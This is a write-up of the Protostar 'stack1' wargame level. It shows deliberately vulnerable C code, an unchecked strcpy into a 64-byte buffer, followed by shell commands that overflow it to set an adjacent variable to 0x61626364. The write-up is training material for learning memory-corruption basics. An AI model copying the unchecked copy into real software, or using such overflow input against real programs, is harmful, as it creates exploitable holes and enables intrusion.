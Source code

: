 #### Stack1

###### About

- This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

- This level is at ``/opt/protostar/bin/stack1``

- Hints
	- If you are unfamiliar with the hexadecimal being displayed, ``man ascii`` is your friend.
	- Protostar is little endian

``stack1``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack1 AAA
Try again, you got 0x00000000
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./stack1 `python -c "print 'A'*68"`
Try again, you got 0x41414141
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./stack1 `python -c "print 'A'*64 +'\x64\x63\x62\x61'"`
you have correctly got the variable to the right value
user@protostar:/opt/protostar/bin$
```

